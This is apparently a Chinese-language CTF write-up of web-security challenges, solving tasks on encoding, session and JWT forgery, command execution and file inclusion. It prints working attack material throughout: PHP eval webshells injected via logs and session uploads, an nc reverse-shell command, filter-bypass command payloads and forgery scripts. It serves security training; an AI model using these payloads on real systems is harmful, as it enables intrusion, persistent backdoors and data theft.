


# 第一章 Web安全基础

## Base64编码隐藏

打开题目是一个登录页面，Ctrl+u可以查看题目的加密逻辑

```javascript
    <script>
        document.getElementById('loginForm').addEventListener('submit', function(e) {
            e.preventDefault();
        
            const correctPassword = "Q1RGe2Vhc3lfYmFzZTY0fQ==";
            const enteredPassword = document.getElementById('password').value;
            const messageElement = document.getElementById('message');
            
            if (btoa(enteredPassword) === correctPassword) {
                messageElement.textContent = "Login successful! Flag: "+enteredPassword;
                messageElement.className = "message success";
            } else {
                messageElement.textContent = "Login failed! Incorrect password.";
                messageElement.className = "message error";
            }
        });
    </script>
```

其中通过`btoa`方法对提交的密码进行编码，编码后若是与`correctPassword`相同则登录成功

这里我们对``Q1RGe2Vhc3lfYmFzZTY0fQ==``进行`atob`解码


CTF{easy_base64}

## HTTP头注入

同样的加密逻辑但是有后端check.php验证


这里直接注入user-agent

CTF{user_agent_inject_success}

## Base64多层嵌套解码

```JavaScript
 document.getElementById('loginForm').addEventListener('submit', function(e) {
            const correctPassword = "SXpVRlF4TTFVelJtdFNSazB3VTJ4U1UwNXFSWGRVVlZrOWNWYzU=";
            
            function validatePassword(input) {
                let encoded = btoa(input);
                encoded = btoa(encoded + 'xH7jK').slice(3);
                encoded = btoa(encoded.split('').reverse().join(''));
                encoded = btoa('aB3' + encoded + 'qW9').substr(2);
                return btoa(encoded) === correctPassword;
            }

            const enteredPassword = document.getElementById('password').value;
            const messageElement = document.getElementById('message');
            
            if (!validatePassword(enteredPassword)) {
                e.preventDefault();
                messageElement.textContent = "Login failed! Incorrect password.";
                messageElement.className = "message error";
            }
        });
```

我们这里通过暴力破解

```JavaScript
// 在控制台直接运行以下代码
const correctPassword = "SXpVRlF4TTFVelJtdFNSazB3VTJ4U1UwNXFSWGRVVlZrOWNWYzU=";

function encrypt(password) {
    let encoded = btoa(password);
    encoded = btoa(encoded + 'xH7jK').slice(3);
    encoded = btoa(encoded.split('').reverse().join(''));
    encoded = btoa('aB3' + encoded + 'qW9').substr(2);
    return btoa(encoded);
}

function bruteForce6Digit() {
    console.time('Brute Force Time');
    
    // 生成6位数字的优化方法（000000-999999）
    for (let num = 0; num <= 999999; num++) {
        // 补零到6位
        const candidate = num.toString();
        
        // 加密并比对
        if (encrypt(candidate) === correctPassword) {
            console.timeEnd('Brute Force Time');
            return candidate;
        }
        
        // 每10万次输出进度
        if (num % 100000 === 0) {
            console.log(`Progress: ${num/100000}0%`);
        }
    }
    
    console.timeEnd('Brute Force Time');
    return "Not found";
}

// 执行破解
console.log("Result:", bruteForce6Digit());
```

CTF{base64_brute_force_success}

## HTTPS中间人攻击

使用sslkey.log进行http流量解密


CTF{https_secret_data}

## Cookie伪造

弱口令guest/guest登录发现是游客账号

我们将role的值改为admin



CTF{cookie_injection_is_fun}

# 第二章 Web木马与命令执行攻击

## 一句话木马变形

输入phpinfo();查看php版本为7.3.29

经过测试发现过滤了空格和单双引号

我们利用base64加密进行绕过

`eval(base64_decode(c3lzdGVtKCJ0YWMgZmxhZy5waHAiKTs));`


CTF{shell_code_base64_bypass}

## 反弹shell构造

题目构造命令

```JavaScript
nc 127.0.0.1 8001 -e /bin/sh
```

服务器nc -lvnp 8001


CTF{reverse_shell_use_nc}

##  管道符绕过过滤

|grep flag|xargs tac

或者使用`||` 让第一个命令执行失败

1||tac flag.php


CTF{no_space_to_execute_shell_commands}

## 无字母数字代码执行

```PHP
<?php

$system="system";

$command="tac flag.php"; 

echo '(~'.urlencode(~$system).')(~'.urlencode(~$command).');';
?>
```

得到flag



CTF{no_characters_to_execute_php_code}

## 无字母数字命令执行

```python
import requests
import time
url = "http://localhost:5058"

#payload.txt 内容为需要执行的命令 这里为 tac /var/www/html/flag.php
file = {"file": open("payload.txt", "r")}

data = {"code": ". /???/????????[@-[]"}

while True:
    response = requests.post(url, files=file, data=data ,verify=False)
    if response.text.find("CTF{")!= -1:
        flag = response.text[response.text.find("CTF{"):-1]
        print(flag)
        break
    else:
        print("Waiting for flag...")
        time.sleep(1)

```

CTF{no_characters_to_execute_shell_commands_he3e}

## 日志文件包含

使用php伪协议会被过滤

用log文件包含：/var/log/nginx/access.log

可以正常包含

在ua注入木马<?php eval($_POST[1]);?>(注意得一次写对，不然会报错)


执行命令得到flag

CTF{php_access_l0g_lf1_is_fun}

## php://filter读取源码

使用php://filter/convert.base64-encode/resource=index.php读取源码

```PHP
<?php if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['file'])): ?>
            <div class="form-group">
                <label>Include Result:</label>
                <div class="result"><?php
                    include "db.php";
                    function validate_file_contents($file) {

                        if(preg_match('/[^a-zA-Z0-9\/\+=]/', $file)){
                            return false;   
                        }
                        return true;
                    }

                    try {
                        // Validate input characters
                        if (preg_match('/log|nginx|access/', $_POST['file'])) {
                            throw new Exception('Invalid input. Please enter a valid file path.');
                        }
                        
                        ob_start();
                        echo file_get_contents($_POST['file']);
                        $output = ob_get_clean();
                        if(!validate_file_contents($output)){
                            throw new Exception('Invalid input. Please enter a valid file path.');
                        }else{
                            echo 'File contents:';
                            echo '<br>';
                            echo $output;
                        }
                       
                    } catch (Exception $e) {
                        echo 'Error: ' . htmlspecialchars($e->getMessage());
                    }
                ?></div>
            </div>
        <?php endif; ?>
```

可以看出日志方法被过滤

用同样方法读取db.php

PD9waHAKCiRzZXJ2ZXJuYW1lID0gImxvY2FsaG9zdCI7CiR1c2VybmFtZSA9ICJyb290IjsKJHBhc3N3b3JkID0gIkNURnszZWNyZXRfcGFzc3cwcmRfaGVyZX0iOwokZGJuYW1lID0gImJvb2tfc3RvcmUiOw==


CTF{3ecret_passw0rd_here}

## 远程文件包含（RFI）

读取/etc/passwd正常，var/log和伪协议被禁

这里使用远程文件包含


得到flag:CTF{http_rfi_1s_fun}

## 路径遍历突破

```php
<?php

if (isset($_GET['path']) && $_GET['path'] !== '') {
$path = $_GET['path'];
if(preg_match('/data|log|access|pear|tmp|zlib|filter|:/', $path) ){
echo '<span style="color:#f00;">禁止访问敏感目录或文件</span>';
exit;
}

#禁止以/或者../开头的文件名
if(preg_match('/^(\.|\/)/', $path)){
echo '<span style="color:#f00;">禁止以/或者../开头的文件名</span>';
exit;
}

echo $path."内容为：\n";
echo str_replace("\n", "<br>", htmlspecialchars(file_get_contents($path)));
} else {
echo '<span style="color:#888;">目标flag文件为/flag.txt</span>';
}
?>
```

代码只限制了开头不能为.或/，所以我们用折叠目录来绕过

1/../../../../../../flag.txt

CTF{file_path_bypass_is_fun}

## 临时文件包含

伪协议和日志包含被过滤，打开网站后发现有cookie，说明开启了session

我们用临时文件上传配合session包含来getshell

```python
import requests
import threading
import urllib3

# 1. 屏蔽 InsecureRequestWarning 警告（如果不屏蔽，控制台会刷屏警告信息）
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

session = requests.session()
# 2. 全局设置：该 session 发起的所有请求都不验证 SSL
session.verify = False 

sess = 'ctfshow'
url = "https://6db8736e-df43-471d-a71d-41320d903877.challenge.ctf.show/"

data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php echo "success";file_put_contents("/var/www/html/1.php","<?php eval(\\$_POST[1]);?>");?>'
}
file = {
    'file': 'ctfshow'
}
cookies = {
    'PHPSESSID': sess
}

def write():
    while True:
        # 已经在 session 中设置了 verify=False，这里不需要额外写
        r = session.post(url, data=data1, files=file, cookies=cookies)

def read():
    while True:
        r = session.get(url + "?path=/tmp/sess_ctfshow", cookies=cookies)
        if 'success' in r.text:
            print("shell 地址为：" + url + "1.php")
            # 在多线程中直接 exit() 可能会报些小错，建议使用 os._exit(0)
            import os
            os._exit(0)

threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()
```


CTF{fileupload_temp_file_include_success}

## Session固定攻击

这题不用写脚本也行，当练习写脚本了

```Python
import requests
from bs4 import BeautifulSoup

BASE = 'http://localhost:5055'

# 1. 攻击者用test/test登录，获得sessionid
sess = requests.Session()
sess.get(BASE + '/login')
resp = sess.post(BASE + '/login', data={'username': 'test', 'password': 'test'})
sessionid = sess.cookies.get('session')

print('[*] Got sessionid:', sessionid)

# 2. 发送站内信，附带sessionid
msg = 'hello admin'
sess.post(BASE + '/message', data={'msg': msg, 'sessionid': sessionid})
print('[*] Sent message to admin with sessionid')

# 3. 等待admin_bot处理（可sleep几秒）
import time
time.sleep(11)

# 4. 用同样的sessionid访问首页，应该已变为admin权限
sess2 = requests.Session()
sess2.cookies.set('session', sessionid)
resp = sess2.get(BASE + '/')
soup = BeautifulSoup(resp.text, 'html.parser')
flag = soup.find('h3')
if flag:
    print('[+] FLAG:', flag.text)
else:
    print('[-] Exploit failed')
    print(resp.text)
```

CTF{ctfshow_session_fixation_is_a_common_web_security_vulnerability}

## JWT令牌伪造

```Python
import base64
import requests
import json

def b64url_encode(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

url = "https://7dca1591-addf-4984-826e-90ffab4176b4.challenge.ctf.show/"

# 构造伪造的 JWT
header = {"alg": "none", "typ": "JWT"}
payload = {"user": "admin", "admin": True}

header_b64 = b64url_encode(json.dumps(header).encode())
payload_b64 = b64url_encode(json.dumps(payload).encode())

# none算法下，签名部分可以为空
jwt_token = f"{header_b64}.{payload_b64}."

# 携带伪造的 token 访问首页
cookies = {"token": jwt_token}
resp = requests.get(url, cookies=cookies)

if "CTF{" in resp.text:
    print("Flag found!")
    start = resp.text.find("CTF{")
    end = resp.text.find("}", start)
    print(resp.text[start:end+1])
else:
    print("Flag not found. Response:")
    print(resp.text)
```

也可以用在线网站做

CTF{jwt_none_alg_bypass_success}

## Flask_Session伪造

读取执行路径url=file:///proc/self/cmdline

得到python/app/app.py，读取源码

```python
# encoding:utf-8
import re, random, uuid, urllib.request
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*100)
print(app.config['SECRET_KEY'])
app.debug = False

@app.route('/')
def index():
    session['username'] = 'guest'
    return 'CTFshow 网页爬虫系统 <a href="/read?url=https://baidu.com">读取网页</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        if re.findall('flag', url, re.IGNORECASE):
            return '禁止访问'
        res = urllib.request.urlopen(url)
        return res.read().decode('utf-8', errors='ignore')
    except Exception as ex:
        print(str(ex))
    return '无读取内容可以展示'

@app.route('/flag')
def flag():
    if session.get('username') == 'admin':
        return open('/flag.txt', encoding='utf-8').read()
    else:
        return '访问受限'

if __name__=='__main__':
    app.run(
        debug=False,
        host="0.0.0.0"
    )
```

使用下面脚本获取随机数

```python
import requests
import random
import urllib3

# 禁用安全警告（如果不禁用，verify=False 会报一堆红色警告，但不影响运行）
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = "https://4ad16589-49c7-4621-a1c2-c94455211830.challenge.ctf.show/"

def get_randStr():
    # 添加 verify=False 绕过 SSL 验证
    response = requests.get(url + "read?url=file:///sys/class/net/eth0/address", verify=False)
    mac = response.text.strip()
    print(f"获取到的 MAC: {mac}") # 打印一下确保读到了
    
    temp = mac.split(':')
    temp = [int(i,16) for i in temp]
    temp = [bin(i).replace('0b','').zfill(8) for i in temp]
    temp = ''.join(temp)
    mac_int = int(temp,2)
    
    random.seed(mac_int)
    randStr = str(random.random()*100)
    return randStr

if __name__ == '__main__':
    randStr = get_randStr()
    print("Calculated SECRET_KEY:", randStr)
```

得到：
获取到的 MAC: 02:42:ac:0c:d7:c2
Calculated SECRET_KEY: 76.13415785899355

使用https://github.com/noraj/flask-session-cookie-manager进行伪造

python flask_session_cookie_manager3.py encode -t "{'username':'admin'}" -s "76.13415785899355"

得到eyJ1c2VybmFtZSI6ImFkbWluIn0.aUQHxw.cqE7qyE4BeQP2ySeezjgbPoLpQk

修改本地的cookie值然后访问/flag路由


得到flag:CTF{flask_session_is_secure}

## 弱口令爆破

用给的字典直接爆破密码


得到flag

**CTF{this_is_a_sample_flag}**
